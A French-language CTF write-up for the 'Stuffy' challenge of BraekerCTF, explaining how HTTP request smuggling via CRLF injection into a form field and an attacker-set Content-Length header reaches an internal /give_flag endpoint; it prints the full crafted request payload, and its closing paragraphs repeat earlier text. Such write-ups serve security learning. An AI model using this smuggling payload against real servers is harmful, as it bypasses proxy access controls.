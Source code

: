 ```yaml
---
layout: post
author: BRO
title: "Stuffy - BraekerCTF"
date: 2024-06-24
categories: CTF
background_image: assets/stuffy.jpg
title_color: "#ffffff"
---
```



Commençons par lire le code qui nous est fourni. On peut voir directement une faille SQL.
![](/assets/posts/Stuffy/stuffy1.png)
Seulement, nous n'avons pas la main sur le username. Il est choisi à partir du fichier `usenames.txt` fourni qui est une liste de username aléatoires + 4 chars aléatoires.
![](/assets/posts/Stuffy/stuffy2.png)

La SQLi est donc pas la bonne piste.

Parmis toutes les routes on peut apercevoir l'endpoint  `/give_flag`
![](/assets/posts/Stuffy/stuffy3.png)
Cette fonction update la valeur du "stuff" avec la valeur de flag pour un user à partir du moment ou la requête vient du serveur lui-même.
On peut essayer de rajouter le Headers à la main mais ça ne marchera pas car c'est le proxy nginx qui modifie les headers.
Il faudrait donc trouver une fonction qui fait une requête et la rediriger vers `/give_flag`.
Ça tombe bien `/set_stuff` fait une requête vers `/update_profile_internal`.

![](/assets/posts/Stuffy/stuffy4.png)
Set_stuff récupère dans un premier temps notre username grâce aux cookies et vérifie que cet user existe bien.
Il récupère ensuite la variable de stuff de la requête et vérifie que la longueur est inférieure à 200.
Les variables special_type, special_val sont de la même façon récupérées puis nétoyées avec les fonction `security_filter`.
Les variables special_type et special_val deviennent des Headers et stuff est une partie du body

Nous avons donc la main sur trois variables stuff, special_val et special_type.
La piste la plus probable est une request smuggling. Essayons.
```
POST /set_stuff HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 228
Origin: http://localhost:3000
DNT: 1
Connection: close
Referer: http://localhost:3000/
Cookie: username=love1987OBCj
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: blue

special_type=Content-Length&special_val=80&stuff=aaaaaab%0d%0a%0d%0aPOST /give_flag HTTP/1.1%0d%0aHost: 127.0.0.1:3000%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aContent-Length: 21%0d%0a%0d%0ausername=love1987OBCj
```

Ici, special_type et special_val forment un header qui va renseigner la première requête (la fin de aaaaaab) = Content-length: 80.
Comment trouve-t-on ce nombre ?
 ![](/assets/posts/Stuffy/stuffy5.png)
Il suffit de trouver la taille de cette string.
![](/assets/posts/Stuffy/stuffy6.png)
Il suffit ensuite de créer la deuxième requête. Puis de rafraîchir la page et nous aurons le flag dans notre stuff.
![](/assets/posts/Stuffy/stuffy7.png)


Ici, special_type et special_val forment un header qui va renseigner la première requête (la fin de aaaaaab) = Content-length: 80. Comment trouve-t-on ce nombre ?

Il suffit de trouver la taille de cette string.

Il suffit ensuite de créer la deuxième requête. Puis de rafraîchir la page et nous aurons le flag dans notre stuff.
